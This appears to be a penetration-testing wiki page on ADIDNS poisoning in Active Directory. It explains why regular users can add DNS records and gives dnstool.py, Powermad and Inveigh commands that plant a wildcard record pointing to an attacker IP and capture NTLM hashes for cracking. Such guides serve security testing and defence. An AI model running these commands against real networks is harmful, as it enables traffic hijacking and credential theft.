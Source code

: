 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# ADIDNS poisoning

## Theory

In order to function properly, Active Directory services need DNS. In that matter, Active Directory Domain Services (AD-DS) offer an integrated storage and replication service for DNS records. This is called Active Directory Integrated DNS (ADIDNS).

Just like any other domain name resolution spoofing attack, if an attacker is able to resolve requests with an arbitrary IP address, traffic gets hijacked, the attacker becomes a Man-in-the-Middle and further attacks can be operated.

Since ADIDNS zone DACL (Discretionary Access Control List) enables regular users to create child objects by default, attackers can leverage that and hijack traffic.

ADIDNS zones can be remotely edited

* with dynamic updates (a DNS specific protocol used by machine accounts to add and update their own DNS records). Users can create records if they don't exist, and they will have full control over it. By default, users that don't own a record will not be able to edit it, or to add another one with the same name, even if the type is different (A, AAAA, CNAME, MX, and so on).
* by using LDAP to create dnsNode objects. While dynamic updates can't be used to inject a wildcard DNS record, LDAP can be (only if the record doesn't already exist, which is the case by default).

### Wildcard records & WINS

> Wildcard records allow DNS to function in a very similar fashion to LLMNR/NBNS spoofing. Once you create a wildcard record, the DNS server will use the record to answer name requests that do not explicitly match records contained in the zone. ([source](https://blog.netspi.com/exploiting-adidns/#wildcard))

:bulb: In some scenarios, adding a wildcard record to the proper ADIDNS zone won't work. This is usually due to the WINS forward lookup being enabled on that zone. WINS forward lookup makes the DNS server send a NBT-NS Query Request to a predefined WINS server when it receives an address record query for which it doesn't know the answer. In short, it serves the same purpose as the wildcard record. This feature needs to be disabled for the wildcard record to be used.

![Domain Controller > DNS Manager > zone properties > WINS](<./assets/WINS Lookup.png>)

## Practice

### WINS forward lookup

::: tabs

=== UNIX-like

The state of WINS forward lookup can be enumerated with [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) (Python). The entry type 65281 (i.e. "WINS") will exist if WINS forward lookup is enabled.

```bash
dnstool.py -u 'DOMAIN\USER' -p 'PASSWORD' --record '@' --action 'query' 'DomainController'
```


=== Windows

The state of WINS forward lookup can be enumerated with [dnstool.py](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py) (Python). The entry type 65281 (i.e. "WINS") will exist if WINS forward lookup is enabled.

```powershell
Get-DNSServerResourceRecord -ZoneName "DOMAIN.FQDN" -RRType "WINS"
```

:::


### Manual record manipulation

::: tabs

=== UNIX-like

An awesome Python alternative to Powermad's functions is [dnstool](https://github.com/dirkjanm/krbrelayx/blob/master/dnstool.py). Theoretically, this script can be used to `add`, `modify`, `query`, `remove`, `resurrect` and `ldapdelete` records in ADIDNS.

```bash
# query a node
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query $DomainController

# add a node and attach a record
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action add --data $AttackerIP $DomainController
```


=== Windows

On Windows, the [Powermad ](https://github.com/Kevin-Robertson/Powermad)module can be used to manually add, view, edit, enable, disable or remove records and nodes. In the following examples, the wildcard (`*`) node/record is targeted but the examples should also work with other records (except things like `WPAD` that are in the [GQBL](wpad-spoofing.md#through-adidns-spoofing)).

```bash
# get the value populated in the DNSRecord attribute of a node
Get-ADIDNSNodeAttribute -Node * -Attribute DNSRecord

# creates a wildcard record, sets the DNSRecord and DNSTombstoned attributes
New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP

# append, populate, or overwrite values in a DNS node attribute
Set-ADIDNSNodeAttribute -Node * -Attribute DNSRecord -Value (New-DNSRecordArray -Data $ATTACKER_IP) -Verbose

# a tombstoned record can be turned again into a valid record with the following command
Enable-ADIDNSNode -Node *

# disable (i.e. tombstone) a node
Disable-ADIDNSNode -Node *

# remove a node
Remove-ADIDNSNode -Node *

# check the wildcard record works/resolve a name
Resolve-DnsName NameThatDoesntExist
```

> [!SUCCESS]
> TL; DR: the following command will add a new wildcard record (if it doesn't already exist) with the attacker IP set in the DNSRecord attribute
> 
> ```bash
> New-ADIDNSNode -Tombstone -Verbose -Node * -Data $ATTACKER_IP
> ```

> [!CAUTION]
> Warning: in some environments, the disabling or removal of the records previously created for tests failed. The records were shown as tombstoned or nonexistant when using functions like `Get-ADIDNSNodeOwner`, `Get-ADIDNSNodeAttribute`, and so on. I think it was due to some replication issues.
> 
> However, the DNS Manager console was still showing those records and name resolution was still effective. It will probably stay an unsolved mystery for me, but testers need to keep this in mind when abusing ADIDNS.

More help on usage, support functions, parameters and attacks [here](https://github.com/Kevin-Robertson/Powermad#adidns-functions).

:::


> [!TIP]
> When adding records has no impact on name resolution or when the tools throw errors like `NoSuchObject`, it could be that the DNS zones in use are stored in the legacy `System` partition, or the `ForestDnsZones`, instead of the `DomainDnsZones` one.
> 
> This can be set with the `--legacy` or `--forest` option on dnstool.py, or with the `-Partition` argument for Powermad.

### Dynamic spoofing

Using [Inveigh](https://github.com/Kevin-Robertson/Inveigh) (Powershell), the following command will 

* operate [LLMNR, NBT-NS and mDNS spoofing](llmnr-nbtns-mdns-spoofing.md)
* operate ADIDNS spoofing
 * `combo` looks at LLMNR/NBNS requests and adds a record to DNS if the same request is received from multiple systems
 * `ns` injects an NS record and if needed, a target record. This is primarily for the GQBL bypass for wpad. 
 * `wildcard` injects a wildcard record
* set the threshold at which the combo ADIDNS spoofing mode will take effect
* enable showing NTLM challenge/response captures from machine accounts
* set the Challenge to `1122334455667788` (to [crack NTLM hashes](../credentials/cracking.md#practice) with [crack.sh](https://crack.sh/))

```powershell
Invoke-Inveigh -ConsoleOutput Y -ADIDNS combo,ns,wildcard -ADIDNSThreshold 3 -LLMNR Y -NBNS Y -mDNS Y -Challenge 1122334455667788 -MachineAccounts Y
```

[This wiki page](https://github.com/Kevin-Robertson/Inveigh/wiki/Basics) can be really useful to help master Inveigh and its support functions

* `Clear-Inveigh` to clear Inveigh's hashtable
* `Get-Inveigh` to get data from Inveigh's hashtable
* `Stop-Inveigh` to stop all running modules
* `Watch-Inveigh` to enable real time console output

## Resources

[https://blog.netspi.com/exploiting-adidns/](https://blog.netspi.com/exploiting-adidns/)

[https://blog.netspi.com/adidns-revisited/](https://blog.netspi.com/adidns-revisited/)

[https://snovvcrash.rocks/2020/12/28/htb-hades.html#spoofing-active-directory-integrated-dns](https://snovvcrash.rocks/2020/12/28/htb-hades.html#spoofing-active-directory-integrated-dns)

